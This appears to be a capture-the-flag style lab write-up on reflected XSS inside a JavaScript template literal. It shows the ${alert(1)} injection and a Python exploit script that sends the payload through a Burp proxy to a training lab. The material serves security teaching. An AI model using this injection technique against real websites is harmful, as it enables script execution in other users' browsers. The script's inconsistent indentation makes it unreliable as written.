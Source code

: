 ```yaml
---
title: 'XSS Lab 21'
description: 'Reflected XSS into a template literal with angle brackets, quotes and backticks escaped'
---
```



## Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

<div style="text-align: justify;">
  This lab demonstrates a reflected cross-site scripting (XSS) vulnerability where the user input is reflected inside a JavaScript template literal. Angle brackets and single/double quotes are HTML-encoded by the application, and backticks are escaped (Unicode-escaped), but an attacker can still inject an expression into the template literal using the `${...}` syntax. By injecting `${alert(1)}` into the search parameter and replaying the request (for example via Burp Repeater), the expression executes when the template literal is evaluated in the browser, resulting in a JavaScript alert.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The search parameter is reflected inside a JavaScript template literal on the page.
- Angle brackets and quotes are HTML-encoded and backticks are escaped, but template literal expression syntax `${...}` still evaluates when the template is interpreted.
- Submit a benign search string, intercept the request with Burp, and replace the search value with `${alert(1)}`.
- Loading the resulting URL executes the injected expression inside the template literal and triggers the alert.
- Verify success by copying the URL from Burp and opening it directly in the browser.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

# Disable SSL warnings for Burp Suite
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set Burp Suite proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    # Check if Burp Suite is running and listening on the configured proxy.

    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_xss(url, payload):
    # Exploit XSS in search parameter.
        uri = f"/?search={payload}"
        res = requests.get(url + uri, verify=False, proxies=proxies)
        res.raise_for_status()
        session = requests.Session()
        res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in res.text:
            print("[+] Lab solved 🎉")
            return True
        else:
            print("[-] lab not solved.")

def main():
    # Entry point of the script.

    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    # Step 1: Check Burp Suite
    check_burp()

    # Step 2: Define XSS payload
    payload = '${alert(1)}'

    # Step 3: Attempt exploitation
    print("[*] Attempting XSS...")
    if exploit_xss(url, payload):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```
